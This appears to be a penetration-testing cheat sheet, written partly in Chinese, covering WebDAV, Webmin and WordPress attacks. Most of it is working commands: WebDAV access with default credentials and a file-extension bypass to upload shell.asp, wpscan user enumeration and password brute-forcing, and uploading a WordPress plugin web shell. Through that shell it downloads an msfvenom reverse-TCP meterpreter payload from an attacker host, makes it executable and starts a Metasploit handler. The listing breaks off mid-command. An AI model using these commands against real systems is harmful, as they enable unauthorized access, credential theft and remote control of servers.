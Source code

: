 ### webdav
参考
http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf
```
#access 
cadaver [ip]/webdav

#default user
wampp:xampp

#put/get upload and download 

davtest --url http://[ip] -dirrectory demo_dir -rand pocfile

#文件后缀限制绕过
rename  shell.asp;.jpg

```

### webmin
webgui to interact with the machine
port 1000


### wordpress

```
#wpscan
wpscan -u http://[ip]

#403 可尝试更换ua 绕过
wpscan -u http://[ip] --random-agent

#wpscan enumerat user
wpscan --url http://$tip/ -e u
wpscan --url http://$tip/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
wp-admin
activity monitor,  已知RCE 获取shell，参考DC6

上传plugin getshel
```
/usr/share/seclists/Web-Shells/WordPress/plugin-shell.php

//打包zip文件， 以便 wordpress 识别为plugin
sudo zip plugin-shell.zip pluginshell.php

//plugins -- add plugins -- install

curl http://sandbox.local/wp-content/plugins/plugin-hell/pluginshell.php?cmd=whoami

//生产 meterpreter payload，python web download
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf

//download
curl http://sandbox.local/wp-content/plugins/plugin-shell/pluginshell.php?cmd=wget%20http://10.11.0.4/shell.elf

// chmod +x
curl http://sandbox.local/wp-content/plugins/plugin-shell/pluginshell.php?cmd=chmod%20%2bx%20shell.elf

msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
set LHOST 192.168.119.196;\
```